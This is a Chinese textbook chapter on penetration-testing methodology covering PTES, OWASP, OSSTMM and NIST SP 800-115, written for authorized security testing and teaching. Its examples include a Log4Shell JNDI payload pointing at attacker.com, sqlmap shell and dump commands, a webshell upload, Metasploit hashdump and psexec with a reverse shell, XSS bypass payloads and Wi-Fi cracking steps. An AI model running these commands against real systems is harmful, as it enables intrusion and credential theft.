




## 1.3 渗透测试方法论

渗透测试方法论是指导安全测试人员系统化开展测试工作的结构化框架。它不是一份简单的检查清单，而是一套完整的思维体系——告诉你"做什么"、"为什么做"、"怎么做"以及"做到什么程度"。没有方法论指导的渗透测试，本质上就是毫无章法的漏洞扫描加随机利用，既无法保证覆盖率，也无法向客户证明测试的严谨性。

### 1.3.1 为什么需要方法论

很多初级安全从业者认为渗透测试就是"用工具扫漏洞然后尝试利用"。这种认知偏差导致了几个严重问题：

| 问题 | 没有方法论 | 有方法论 |
|------|-----------|---------|
| 测试覆盖 | 随机性强，容易遗漏关键资产 | 系统化覆盖，确保无盲区 |
| 风险控制 | 操作随意，可能造成系统宕机 | 每步操作有规范，风险可控 |
| 结果可重复 | 换个人做结果完全不同 | 标准化流程，结果可复现 |
| 法律合规 | 授权模糊，容易越界 | 明确边界，法律风险可控 |
| 价值交付 | 报告零散，客户难理解 | 结构化输出，可直接指导修复 |

方法论的核心价值在于**将个人经验转化为可复制的组织能力**。一个有方法论的安全团队，即使成员更替，也能保持稳定的测试质量。

### 1.3.2 PTES（渗透测试执行标准）

PTES（Penetration Testing Execution Standard）是最被广泛认可的渗透测试方法论之一，由一群资深安全从业者于2009年发起，目标是为渗透测试行业建立一个统一的执行标准。PTES定义了渗透测试的完整流程，包括七个阶段。

#### 阶段一：前期交互（Pre-engagement Interactions）

前期交互是整个渗透测试的基础，这个阶段的工作质量直接决定了测试的合法性和有效性。很多人急于"动手"而轻视这个阶段，结果要么测试范围不清导致遗漏，要么越界操作引发法律纠纷。

**核心产出物：**

1. **授权书（Statement of Work, SOW）**：这是渗透测试最重要的法律文件。授权书必须明确包含以下内容：
   - 测试发起方和执行方的完整信息
   - 测试目标系统和IP范围（精确到具体IP/域名/CIDR）
   - 测试时间窗口（包括允许的测试时段和禁止测试的时段）
   - 测试类型（黑盒/灰盒/白盒）
   - 禁止的操作（如拒绝服务攻击、社会工程学、物理渗透等）
   - 紧急联系人和沟通机制
   - 数据处理和保密条款
   - 免责声明和责任边界

2. **测试计划（Rules of Engagement, ROE）**：测试计划是操作层面的指南，包含：
   - 详细的测试时间表（按阶段划分）
   - 每个阶段的具体任务和里程碑
   - 使用的工具清单
   - 通信协议（每日汇报、紧急事件处理流程）
   - 测试数据的存储和销毁方式
   - 成功标准和退出条件

**关键沟通问题清单：**

```text
┌─────────────────────────────────────────────────────┐
│              前期交互必问问题清单                      │
├─────────────────────────────────────────────────────┤
│ 1. 测试的业务背景是什么？为什么现在做？               │
│ 2. 有哪些已知的安全事件或特别关注的风险？             │
│ 3. 目标系统是否在生产环境？有无备用环境？             │
│ 4. 是否有IPS/WAF等防护设备？误报如何处理？            │
│ 5. 测试期间系统变更如何同步？                        │
│ 6. 发现严重漏洞是否立即通报？通报给谁？              │
│ 7. 第三方组件/云服务是否在测试范围内？               │
│ 8. 内部人员是否知道测试安排？                        │
│ 9. 测试结果的分发范围和保密级别？                    │
│ 10. 是否有合规要求（等保/PCI DSS/ISO 27001）？       │
└─────────────────────────────────────────────────────┘
```

#### 阶段二：情报收集（Intelligence Gathering）

情报收集是渗透测试中耗时最长但价值最高的阶段。PTES将情报收集分为三个层次：

**被动信息收集（Passive Intelligence）**——不直接与目标系统交互：

```bash
# WHOIS查询 - 获取域名注册信息
whois example.com

# DNS记录枚举
dig example.com ANY
dig example.com A
dig example.com MX
dig example.com NS
dig example.com TXT

# 子域名发现（被动方式）
# 利用证书透明度日志
curl -s "https://crt.sh/?q=%25.example.com&output=json" | jq -r '.[].name_value' | sort -u

# 利用搜索引擎
# Google dork示例
site:example.com filetype:pdf
site:example.com inurl:admin
site:example.com intitle:"index of"

# 利用Wayback Machine查看历史页面
curl "https://web.archive.org/cdx/search/cdx?url=example.com/*&output=json&fl=original&collapse=urlkey" | jq -r '.[1:][0][]' | sort -u

# 利用Shodan搜索暴露的资产
# https://www.shodan.io/search?query=hostname:example.com
```

**主动信息收集（Active Intelligence）**——直接与目标交互但不利用漏洞：

```bash
# 端口扫描
nmap -sS -sV -sC -O -p- --min-rate 1000 -oA full_scan target_ip

# Web技术栈识别
whatweb https://example.com
wappalyzer（浏览器插件）

# 目录和文件枚举
gobuster dir -u https://example.com -w /usr/share/wordlists/dirb/common.txt -x php,html,txt,bak

# 虚拟主机发现
gobuster vhost -u https://example.com -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt

# API端点发现
ffuf -u https://example.com/api/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/api/api-endpoints.txt
```

**深度情报分析（Deep Intelligence）**——对收集的信息进行关联分析：

- 分析员工信息（LinkedIn、GitHub commits中的邮箱），构建用户名字典
- 分析技术栈版本，匹配已知CVE
- 分析组织架构，识别关键系统和高价值目标
- 分析网络拓扑，规划攻击路径

#### 阶段三：威胁建模（Threat Modeling）

威胁建模的目标是回答一个核心问题：**对这个特定目标，最可能成功的攻击路径是什么？**

PTES推荐使用攻击树（Attack Tree）方法进行威胁建模：



**威胁建模的实操步骤：**

1. **资产识别**：列出所有已知的攻击面（Web应用、API、邮件服务器、VPN、员工终端等）
2. **攻击向量映射**：为每个资产列出可能的攻击方式
3. **可行性评估**：根据情报收集的结果，评估每个攻击向量的可行性（1-5分）
4. **影响评估**：评估攻击成功后的影响范围（1-5分）
5. **优先级排序**：可行性 × 影响 = 优先级分数，按分数从高到低排序

#### 阶段四：漏洞分析（Vulnerability Analysis）

漏洞分析阶段结合自动化工具和人工分析，目标是识别目标系统中可被利用的安全弱点。

**自动化扫描工具链：**

```bash
# Nessus / OpenVAS - 系统级漏洞扫描
# 配置扫描策略时注意：
# - 选择对应的操作系统和应用类型模板
# - 设置合理的扫描速率（避免影响生产环境）
# - 启用凭证扫描以发现本地漏洞

# Nikto - Web服务器扫描
nikto -h https://example.com -o nikto_report.html -Format html

# SQLMap - SQL注入检测
sqlmap -u "https://example.com/page?id=1" --batch --crawl=3 --level=3 --risk=2

# Nuclei - 模板化漏洞扫描
nuclei -u https://example.com -t cves/ -t vulnerabilities/ -severity critical,high,medium
```

**人工分析的重点领域：**

- **业务逻辑漏洞**：自动化工具几乎无法发现的漏洞类型，如越权访问、竞态条件、价格篡改等
- **配置错误**：默认凭证、调试模式开启、目录遍历、CORS配置不当等
- **信息泄露**：错误页面中的堆栈信息、API响应中的多余字段、Git/SVN仓库泄露
- **认证/授权缺陷**：JWT算法混淆、密码重置逻辑缺陷、会话固定等

#### 阶段五：渗透攻击（Exploitation）

渗透攻击阶段是将漏洞分析阶段识别的弱点转化为实际的系统访问权限。这一阶段需要极高的谨慎度——在生产环境中，一个错误的exploit可能导致服务中断。

**Exploitation的核心原则：**

1. **先验证，后利用**：在利用漏洞前，先通过非破坏性方式验证漏洞确实存在
2. **最小侵入原则**：选择对系统影响最小的利用方式
3. **完整记录**：记录每一步操作、输入和输出，用于报告撰写
4. **准备回滚方案**：知道如何撤销自己的操作

**常见Exploitation场景示例：**

```bash
# 场景1：SQL注入获取Shell
# 步骤1：确认注入点
sqlmap -u "https://target/page?id=1" --batch --dbs
# 步骤2：获取数据库内容
sqlmap -u "https://target/page?id=1" --batch -D target_db --dump
# 步骤3：尝试写入WebShell（需特定条件）
sqlmap -u "https://target/page?id=1" --batch --os-shell

# 场景2：文件上传获取RCE
# 利用Content-Type绕过或文件扩展名绕过上传PHP WebShell
curl -X POST https://target/upload \
  -F "file=@shell.php;type=image/jpeg" \
  -F "submit=Upload"

# 场景3：已知CVE利用（以Log4Shell为例）
# 阶段1：验证JNDI注入是否存在
# 发送包含${jndi:ldap://attacker.com/test}的输入
# 监听DNS回连确认漏洞存在
# 阶段2：部署恶意LDAP/RMI服务并获取Shell
```

#### 阶段六：后渗透攻击（Post Exploitation）

后渗透阶段的目标不是"攻破更多系统"，而是**评估攻击者在突破边界后可能造成的真实业务影响**。这是渗透测试区别于漏洞扫描的核心价值所在。

**后渗透活动分类：**

| 活动 | 目的 | 典型手法 |
|------|------|---------|
| 权限提升 | 从普通用户提升到管理员/root | 内核漏洞、SUID滥用、sudo配置错误、令牌模拟 |
| 凭证获取 | 获取更多账户的密码或哈希 | Mimikatz、SAM数据库提取、内存抓取 |
| 横向移动 | 从一台机器扩展到整个网络 | Pass-the-Hash、PSExec、WMI、RDP跳板 |
| 数据定位 | 找到高价值数据 | 文件搜索、数据库枚举、邮件服务器访问 |
| 持久化 | 确保访问不丢失 | 计划任务、注册表自启、WebShell、后门账户 |
| 痕迹清理 | 模拟高级攻击者的反取证能力 | 日志清除、时间戳修改、文件删除 |

```bash
# Windows后渗透示例（使用Metasploit）
# 权限提升
use exploit/windows/local/bypassuac_eventvwr
set SESSION 1
set LHOST attacker_ip
run

# 获取凭证
use post/windows/gather/smart_hashdump
set SESSION 2
run

# 横向移动
use exploit/windows/smb/psexec
set RHOSTS 192.168.1.0/24
set SMBUser administrator
set SMBPass aad3b435b51404eeaad3b435b51404ee:hash_value
set PAYLOAD windows/x64/meterpreter/reverse_tcp
run

# Linux后渗透示例
# 查找SUID文件
find / -perm -4000 -type f 2>/dev/null
# 查找可写的crontab
find /etc/cron* -writable -type f 2>/dev/null
# 查找敏感文件
find / -name "*.conf" -o -name "*.key" -o -name "*.pem" 2>/dev/null | head -20
# 内核漏洞检查
uname -a && cat /etc/os-release
```

#### 阶段七：报告撰写（Reporting）

报告是渗透测试最重要的交付物。一份优秀的渗透测试报告应该同时服务于三个受众：高层管理者（看结论和风险）、安全团队（看漏洞详情）、开发运维（看修复方案）。

**报告结构模板：**

```text
1. 执行摘要（1-2页，给管理层看）
   - 测试范围和目标概述
   - 关键发现总结（用风险矩阵展示）
   - 整体安全评级
   - 最紧急的修复建议

2. 技术概述（给安全团队看）
   - 测试方法论说明
   - 测试范围详细说明
   - 测试工具清单
   - 测试时间线

3. 漏洞详情（给开发运维看）
   - 每个漏洞包含：
     a. 漏洞标题和CVE编号（如有）
     b. 风险等级（严重/高/中/低/信息）
     c. 受影响资产
     d. 漏洞描述
     e. 复现步骤（截图+操作步骤）
     f. 攻击影响
     g. 修复建议（具体可操作的方案）
     h. 参考资料

4. 附录
   - 完整的扫描结果
   - 工具输出日志
   - 术语表
```

### 1.3.3 OWASP测试指南

OWASP（Open Web Application Security Project，开放式Web应用安全项目）发布的测试指南专注于Web应用安全测试，是Web渗透测试领域的权威参考。截至当前版本，OWASP Testing Guide v4.2定义了11个测试大类、超过90个测试项。

#### OWASP测试体系结构

OWASP测试指南按照Web应用的技术层次组织测试项：

| 测试编号 | 测试类别 | 测试项数 | 关注领域 |
|---------|---------|---------|---------|
| OTG-INFO | 信息收集 | 12项 | 域名、服务器、应用指纹、入口点识别 |
| OTG-CONFIG | 配置管理 | 9项 | 服务器配置、HTTP方法、CORS、文件权限 |
| OTG-IDENT | 身份认证 | 10项 | 凭证传输、默认口令、认证绕过、密码策略 |
| OTG-AUTHZ | 授权测试 | 7项 | 目录遍历、权限提升、IDOR、RBAC绕过 |
| OTG-SESS | 会话管理 | 8项 | Cookie属性、会话固定、CSRF、会话超时 |
| OTG-INPVAL | 输入验证 | 13项 | XSS、SQL注入、SSI注入、LDAP注入、缓冲区溢出 |
| OTG-ERRHAND | 错误处理 | 4项 | 报错信息泄露、堆栈跟踪、调试信息 |
| OTG-CRYPST | 密码学 | 4项 | SSL/TLS配置、加密算法、密钥管理 |
| OTG-BUSLOGIC | 业务逻辑 | 7项 | 功能滥用、数据验证、时序攻击、工作流绕过 |
| OTG-CLIENT | 客户端测试 | 8项 | DOM XSS、JavaScript执行、跨源资源、点击劫持 |

#### OWASP测试方法详解（关键测试项示例）

**示例1：OTG-INPVAL-001 Reflected XSS测试**

```bash
# 步骤1：识别所有用户输入点
# - URL参数、表单字段、HTTP头（Referer、User-Agent、Cookie）
# - 使用Burp Suite Proxy拦截所有请求

# 步骤2：在每个输入点注入测试Payload
# 基础测试
<script>alert('XSS')</script>

<svg onload=alert('XSS')>

# 绕过过滤的Payload
<ScRiPt>alert('XSS')</ScRiPt>  # 大小写混合
<script>alert(String.fromCharCode(88,83,83))</script>  # 字符编码
"><script>alert('XSS')</script>  # 闭合属性
javascript:alert('XSS')  # 伪协议
<div style="background:url(javascript:alert('XSS'))">  # CSS表达式

# 步骤3：验证执行上下文
# - 在HTML标签内执行？
# - 在JavaScript字符串中执行？
# - 在HTML属性中执行？
# 根据上下文调整Payload

# 步骤4：评估影响
# - 能否窃取Cookie？
# - 能否执行任意操作？
# - 能否进行钓鱼攻击？
```

**示例2：OTG-AUTHZ-004 IDOR（不安全的直接对象引用）测试**

```bash
# IDOR是最常见的授权漏洞之一
# 测试步骤：

# 步骤1：识别引用用户资源的API端点
GET /api/users/123/orders
GET /api/documents/456
GET /api/invoices/789

# 步骤2：使用A用户的会话访问B用户的资源
# 将用户ID从123改为124
GET /api/users/124/orders
Authorization: Bearer <A用户的Token>

# 步骤3：测试不同类型的对象引用
# - 递增数字ID
# - UUID替换
# - 文件名/路径引用
# - 嵌套资源引用

# 步骤4：自动化IDOR测试
# 使用Autorize（Burp Suite插件）自动对比
# 低权限用户和高权限用户对同一资源的访问响应
```

#### OWASP与其他方法论的差异

OWASP测试指南的独特优势在于**深度而非广度**——它只关注Web应用，但在Web安全测试的每个细节上做到了极致。每个测试项都包含：测试ID、测试描述、具体的测试方法步骤、预期结果、如何判定漏洞存在、相关CVE案例、参考资料链接。这使得即使是一个经验不足的测试人员，也能按照指南系统化地完成Web安全测试。

### 1.3.4 OSSTMM（开源安全测试方法手册）

OSSTMM（Open Source Security Testing Methodology Manual）由ISECOM（安全与开放方法研究所）维护，当前版本为OSSTMM 3。与其他方法论不同，OSSTMM的目标不仅仅是"找到漏洞"，而是**建立一套可量化的安全评估体系**。

#### OSSTMM的五个测试通道

OSSTMM将所有安全测试活动归纳为五个通道（Channel），每个通道覆盖不同的攻击面：



**通道1：人（Human）**

人是最容易被忽视但最脆弱的攻击面。OSSTMM对"人"通道的测试包括：

- **社会工程学测试**：钓鱼邮件、电话诈骗、尾随进入、USB投递
- **安全意识评估**：员工对安全政策的了解程度、上报可疑事件的意愿
- **角色权限审计**：不同角色的权限分配是否合理

```text
人通道测试检查项：
□ 是否有安全意识培训计划？
□ 员工能否识别钓鱼邮件？
□ 敏感区域是否有尾随进入的防护？
□ 废弃文件是否按规定销毁？
□ 员工是否使用公司设备处理个人事务？
□ 是否有举报可疑行为的机制？
```

**通道2：物理（Physical）**

- **周边安全**：围栏、照明、监控摄像头覆盖范围
- **入口控制**：门禁系统类型、访客管理流程、锁具安全性
- **环境安全**：烟雾探测、灭火系统、UPS供电

**通道3：无线通信（Wireless Communications）**

```bash
# Wi-Fi安全测试
# 步骤1：发现无线网络
airodump-ng wlan0mon

# 步骤2：识别加密类型和客户端
airodump-ng -c <channel> --bssid <AP_MAC> wlan0mon

# 步骤3：测试WPA2安全性
# 尝试PMKID攻击（无需客户端）
hcxdumptool -i wlan0mon -o capture.pcapng --filterlist_ap=AP_MAC --filtermode=2
hashcat -m 22000 capture.pcapng wordlist.txt

# 步骤4：测试企业级WPA
# EAP降级攻击、凭证捕获
hostapd-mana hostapd.conf
```

**通道4：电信（Telecommunications）**

- VoIP系统测试：SIP枚举、呼叫劫持、语音信箱绕过
- PBX安全：默认凭证、功能滥用、话费欺诈
- 电话线路安全：窃听、线路干扰

**通道5：数据网络（Data Networks）**

这是传统渗透测试最常涉及的通道，包括网络层、传输层和应用层的测试。

#### STAR报告体系

OSSTMM最独特的贡献是引入了**安全测试审计报告（Security Test Audit Report, STAR）**。STAR使用可量化的指标来评估安全状况，而不是简单的"高/中/低"分类。

**OSSTMM安全度量公式：**

```text
安全状态 = 已知控制 × 运作范围 × 攻击面

其中：
- 已知控制（Known Controls）：已部署的安全措施数量和有效性
- 运作范围（Operational Scope）：安全措施的实际覆盖范围（0-1）
- 攻击面（Attack Surface）：暴露的攻击向量数量

最终结果用Raft（Risk Assessment Factor for Threats）表示：
Raft = 攻击面 / (已知控制 × 运作范围)
```

这种量化方法的优势在于：不同时间点的测试结果可以直接比较，不同系统之间的安全水平也可以横向对比。

### 1.3.5 NIST SP 800-115

NIST SP 800-115《Technical Guide to Information Security Testing and Assessment》是美国国家标准与技术研究院发布的技术指南，为安全测试提供了标准化的框架。虽然它是为美国联邦机构编写的，但其方法论的严谨性使其成为全球安全行业的重要参考。

#### 四种评估类型

NIST将安全评估活动分为四种类型，每种类型有不同的适用场景和风险级别：

| 评估类型 | 风险级别 | 技术深度 | 适用场景 | 是否利用漏洞 |
|---------|---------|---------|---------|------------|
| 漏洞扫描 | 低 | 浅 | 定期合规检查、快速评估 | 否 |
| 渗透测试 | 中 | 深 | 验证特定漏洞的可利用性 | 是（有限制） |
| 红队演练 | 高 | 最深 | 评估整体防御能力 | 是（尽可能深入） |
| 安全审计 | 低 | 中 | 合规验证、政策执行检查 | 否 |

#### NIST渗透测试流程



#### NIST的特殊要求

NIST SP 800-115特别强调以下几点，使其在合规性测试领域具有独特价值：

1. **法律合规优先**：所有测试活动必须在法律框架内进行，必须获得书面授权
2.**最小影响原则**：测试不应导致目标系统的服务中断或数据损坏
3. **结果验证**：所有发现的漏洞都必须经过二次验证，排除误报
4. **保密处理**：测试结果应按照组织的敏感信息处理政策进行管理
5. **持续评估**：安全测试不是一次性活动，应纳入组织的持续安全评估计划

### 1.3.6 其他重要方法论

#### ISSAF（信息系统安全评估框架）

ISSAF（Information Systems Security Assessment Framework）是一个综合性的安全评估框架，它的特点是将评估分为三个域（Domain）：

- **规划与准备域**：范围定义、法律协议、团队组建
- **评估域**：目标枚举、漏洞评估、渗透测试
-- **报告与销毁域**：结果分析、报告撰写、测试数据安全销毁

ISSAF的评估域进一步细分为多个阶段，包括网络映射、操作系统指纹识别、服务枚举、漏洞评估、渗透测试和特权提升等。与PTES相比，ISSAF对物理安全和社会工程学测试的覆盖更为详细。

#### CREST（英国注册渗透测试员协会）

CREST（Council of Registered Ethical Security Testers）是英国的一个认证机构，它定义了渗透测试的服务标准和从业人员的能力要求。CREST方法论的核心特点是：

- **严格的质量控制**：要求测试团队至少有一名CREST认证人员
- **标准化的交付物**：定义了报告必须包含的最低内容要求
- **持续能力验证**：认证人员需要定期重新认证

#### PCI DSS渗透测试指南

PCI DSS（支付卡行业数据安全标准）对处理信用卡数据的组织有明确的渗透测试要求。PCI DSS渗透测试指南的独特之处在于：

- **范围明确**：仅限于持卡人数据环境（CDE）
- **网络层和应用层分离**：要求分别进行网络层和应用层的渗透测试
- **每年至少一次**：以及在重大系统变更后必须重新测试
- **验证范围**：测试必须验证网络分段的有效性

### 1.3.7 方法论对比与选择

#### 核心方法论对比

| 维度 | PTES | OWASP | OSSTMM | NIST 800-115 |
|------|------|-------|--------|-------------|
| 适用范围 | 通用渗透测试 | Web应用安全 | 全面安全评估 | 合规性评估 |
| 技术深度 | 深 | 最深（Web领域） | 全面但不极致 | 中等 |
| 非技术覆盖 | 有限 | 无 | 最全面 | 有限 |
| 可量化性 | 弱 | 弱 | 强（STAR体系） | 中等 |
| 学习曲线 | 中等 | 低（Web领域） | 高 | 低 |
| 行业认可度 | 高（技术社区） | 最高（Web安全） | 中等 | 高（政府/合规） |
| 报告模板 | 有 | 有 | 有（STAR） | 有 |

#### 如何选择方法论

选择方法论不是"选最好的"，而是"选最合适的"。以下是决策流程：



**实际项目中的常见组合：**

- **Web应用测试**：以OWASP测试指南为主，参考PTES的报告格式
- **内网渗透测试**：以PTES为主，参考OSSTMM的量化评估方法
- **合规性测试**：以NIST/PCI DSS为主，叠加PTES的技术深度
- **全面安全评估**：以OSSTMM为主，叠加PTES和OWASP的技术细节

### 1.3.8 方法论的实践落地

#### 将方法论转化为检查清单

方法论是思维框架，但在实际执行中需要转化为可操作的检查清单。以下是一个基于PTES的通用渗透测试检查清单模板：

```text
=== 渗透测试检查清单 ===

【前期交互】
□ 签署授权书（SOW）
□ 明确测试范围（IP/域名/应用列表）
□ 确认测试时间窗口
□ 建立紧急沟通渠道
□ 获取测试账户和凭证（灰盒测试时）
□ 确认备份和回滚方案

【情报收集】
□ 域名和子域名枚举
□ DNS记录收集
□ WHOIS信息查询
□ IP地址范围确认
□ 端口扫描完成
□ 服务版本识别完成
□ Web技术栈识别完成
□ 目录和文件枚举完成
□ 员工信息收集（如适用）

【漏洞分析】
□ 自动化扫描完成
□ 扫描结果人工验证
□ 业务逻辑测试完成
□ 认证/授权测试完成
□ 输入验证测试完成
□ 配置审计完成

【渗透攻击】
□ 高危漏洞利用完成
□ 权限提升测试完成
□ 横向移动测试完成（内网场景）

【后渗透】
□ 凭证获取测试完成
□ 数据访问范围评估完成
□ 持久化测试完成

【报告】
□ 执行摘要撰写完成
□ 漏洞详情描述完成
□ 修复建议编写完成
□ 证据截图整理完成
□ 报告审核完成
□ 报告交付完成
```

#### 方法论的持续改进

方法论不是一成不变的。随着攻击技术的演进和目标环境的变化，需要持续更新和调整：

1. **攻击面更新**：云原生、容器化、Serverless等新技术带来了新的攻击面，需要在方法论中补充相应的测试项
2. **工具链更新**：新工具的出现可能改变测试效率，需要定期评估和更新工具清单
3. **经验教训反馈**：每次测试项目结束后，回顾方法论中的不足，持续优化
4. **行业标准演进**：关注PTES、OWASP等标准的版本更新，及时采纳新的最佳实践

### 1.3.9 常见误区与纠正

**误区1：方法论等于检查清单**

纠正：方法论是思维方式和决策框架，检查清单只是执行层面的辅助工具。一个优秀的渗透测试人员需要理解每个步骤背后的"为什么"，而不仅仅是机械地执行检查清单。当遇到检查清单未覆盖的场景时，方法论的思维框架能指导你做出正确的决策。

**误区2：工具扫描就是渗透测试**

纠正：自动化工具只能发现已知的、模式化的漏洞。真正的渗透测试价值在于人工分析——发现业务逻辑漏洞、评估组合攻击的影响、理解漏洞在特定环境下的可利用性。工具是辅助手段，不是替代品。

**误区3：漏洞数量代表测试质量**

纠正：找到100个低危漏洞不如找到1个可利用的高危漏洞有价值。渗透测试的目标是评估风险，不是堆砌漏洞数量。一个好的渗透测试报告应该帮助客户理解"最可能被攻击者利用的路径是什么"以及"如何有效防护"。

**误区4：黑盒测试比白盒测试更真实**

纠正：黑盒测试模拟的是外部攻击者的视角，白盒测试则能更全面地评估系统的安全性。两种方式各有价值，选择哪种取决于测试目标。如果目标是评估防御体系的有效性，黑盒更合适；如果目标是全面发现安全缺陷，白盒更高效。

**误区5：方法论过时了，实战中用不上**

纠正：方法论提供的是结构化思维，不是过时的教条。即使你使用最新的AI辅助渗透测试工具，仍然需要方法论来指导：哪些目标优先测试、如何控制测试风险、如何组织测试结果。工具在变，但方法论的核心原则不变。

### 1.3.10 从方法论到实战能力

掌握方法论只是起点，将其转化为实战能力需要持续的练习：

1. **靶场练习**：在HackTheBox、TryHackMe、VulnHub等靶场上，按照PTES的七个阶段系统化地完成每台机器，而不是盲目地尝试exploit
2. **CTF竞赛**：参加CTF竞赛培养快速分析和利用漏洞的能力，但要注意CTF与真实渗透测试的差异（CTF注重速度，渗透测试注重全面性和安全性）
3. **Bug Bounty**：参与合法的漏洞赏金计划，在真实环境中练习方法论，同时培养漏洞发现的直觉
4. **报告写作**：刻意练习报告写作能力——一份好的报告比找到更多的漏洞更有职业价值
5. **复盘总结**：每个项目结束后，回顾方法论的执行情况，总结哪些做得好、哪些可以改进

渗透测试方法论不是束缚手脚的枷锁，而是让你的攻击更有章法、更有说服力的武器。真正的大师，是把方法论内化到骨子里，做到"有章法而不拘泥于章法"。
